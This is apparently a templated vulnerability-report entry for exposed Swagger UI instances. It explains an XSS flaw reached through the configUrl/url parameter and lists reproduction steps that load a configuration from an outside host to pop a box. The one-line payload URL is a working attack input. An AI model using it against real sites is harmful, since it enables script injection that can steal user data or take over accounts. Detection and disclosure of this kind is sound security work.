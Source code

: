 # Detect exposed Swagger UI

#### Description
Swagger UI is a web interface for interacting with a web API defined using the OpenAPI (formerly known as Swagger) specification. It allows you to visualize and interact with the API's resources without having to write any code.

Some old Swagger UI versions are vulnerable to XSS by overwriting their configuration with the `?configUrl` or `?url` parameter. By doing so, you can override the page to do a malicious act, while it still has a trustworthy URL. And no authentication is needed to exploit this vulnerability

#### Steps to reproduce
1. Go to: {{endpoint}}?configUrl=https://jumpy-floor.surge.sh/test.json
2. Observe an alert box on your screen

#### Impact
This vulnerability allows an attacker to inject and execute arbitrary script code within the context of a user's web browser. This malicious script code can be used to steal sensitive user information, perform phishing attacks, or even gain unauthorised access to the user's account.

#### Resources / Supporting Material:
- https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
- https://app.vidocsecurity.com/public-library/787db825-d8c0-4182-a79f-6c7520745c49
